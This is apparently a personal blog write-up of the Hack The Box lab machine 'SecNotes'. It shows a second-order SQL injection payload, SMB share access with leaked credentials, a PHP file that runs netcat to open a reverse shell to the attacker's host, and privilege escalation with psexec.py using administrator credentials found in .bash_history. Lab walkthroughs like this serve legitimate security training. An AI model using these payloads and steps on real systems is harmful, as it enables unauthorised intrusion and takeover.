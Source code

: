 ```yaml
---
layout: post
title: Hack The Box - SecNotes
categories: hack-the-box
image: /hackthebox/secnotes/0.png
---
```

<hr>
### Quick Summary
#### Hey guys Today SecNotes retired. SecNotes was a very nice box and I really liked that it mixed between windows and linux , and that's because it was a windows box and it had windows subsystem for linux (WSL) installed.It was relatively easy. It's ip is 10.10.10.97 so let's jump right in.
![](/images/hackthebox/secnotes/0.png)
<hr>
### Nmap
#### We will start with scanning open ports and services with nmap like we always do so `nmap -sV -sT secnotes.htb`
![](/images/hackthebox/secnotes/1.png)
#### And we see http on port 80 and microsoft-ds on 445 which is smb actually.
#### So let's look at what's there on http
<br>
### HTTP
![](/images/hackthebox/secnotes/2.png)
#### A regular login page and there is an option to sign up , So let's sign up and see what's in there.
![](/images/hackthebox/secnotes/3.png)
![](/images/hackthebox/secnotes/4.png)
#### After we login we see this regular page : "Viewing Secure Notes for *Username*" , and there are some options like creating a note , changing password , sign out and contact. Of course we will do regular enumeration like checking for directories ,checking web vulnerabilities and stuff like that but i will just jump into the thing.
<br>
<hr>
### SQLI
#### If we tried to do sql injection in the registration form , it will work after we login (second order sqli). A simple payload like `OR 1 OR` :
![](/images/hackthebox/secnotes/5.png)
![](/images/hackthebox/secnotes/6.png)
#### And after we login we see some notes , most importantly "new site" :
![](/images/hackthebox/secnotes/7.png)
#### We smb creds , so the next step is to login with smbclient
<br>
<hr>
### New Site
#### We will login with smbclient :
`smbclient //secnotes.htb/new-site -U "tyler"`
#### Then we will look at the contents of that share with `ls`
```
smb: \> ls
  .                                   D        0  Fri Jan 18 15:25:52 2019
  ..                                  D        0  Fri Jan 18 15:25:52 2019
  iisstart.htm                        A      696  Thu Jun 21 17:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 17:26:03 2018
  Microsoft                           D        0  Fri Jan 18 15:25:52 2019

```
#### We see stuff that is related to an http server , but that's not the server on port 80 , because it had more than just a png picture and html page. If we do another full port scan we will find an http server on port 8808.
#### you can do a full scan by specifying the port range like this `-p-` I already know it's port 8808 so i'm going to scan that port
![](/images/hackthebox/secnotes/8.png)
#### Now if we go to that port we will see a default page :
![](/images/hackthebox/secnotes/9.png)
#### And by looking at the source we see the png image we saw earlier on the smb share.
![](/images/hackthebox/secnotes/10.png)
#### So we can upload our shell to that server through smb then easily get a reverse shell.
<br>
<hr>
### Reverse shell and User
#### We will create a simple php file that executes nc.exe and connects back to us :
```
<?php
system('nc.exe -e cmd.exe 10.10.xx.xx 1337')
?>
```
#### Then we will put it on the server : from smb shell we do `put rev.php` we also need nc.exe . you can get it from [here](https://eternallybored.org/misc/netcat/) then we will do `put nc.exe`
#### Now when we visit secnotes.htb:8808/rev.php our listener should get a callback , and we got a rev shell !
![](/images/hackthebox/secnotes/11.png)
<hr>
### WSL
#### Let's take a look at the admin's Desktop
![](/images/hackthebox/secnotes/12.png)
#### There are some interesting stuff , but `bash.lnk` that's weird because we are on a windows machine , so windows subsystem for linux is installed on this machine. Let's find where is bash.exe
#### We will `cd /windows` then we will do `dir *.exe /b/s | findstr bash` and this will list recursively all the exe files then we will just pick the line that has bash in it , `findstr` is like `grep` in linux
![](/images/hackthebox/secnotes/13.png)
#### And we got the path , let's `cd` to it and execute bash.exe
![](/images/hackthebox/secnotes/14.png)
#### We will get a stable shell with python pty , We see that we are root on this subsystem. if we list the files in `/root` directory we don't see too much files , but we see `.bash_history` which is a very interesting thing to look at if you are enumerating a linux box so let's view that.
![](/images/hackthebox/secnotes/15.png)
<hr>
### Root
#### There's an smbclient command with the administrator creds, we will simply use [impacket](https://github.com/SecureAuthCorp/impacket)'s `psexec.py` to get a root shell , like we did in [Active](/hack-the-box/active/) 
`./psexec.py administrator@secnotes.htb`
![](/images/hackthebox/secnotes/16.png)
#### And we owned root!
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### previous Hack The Box write-up : [Hack The Box - Oz](/hack-the-box/oz/)
<hr>
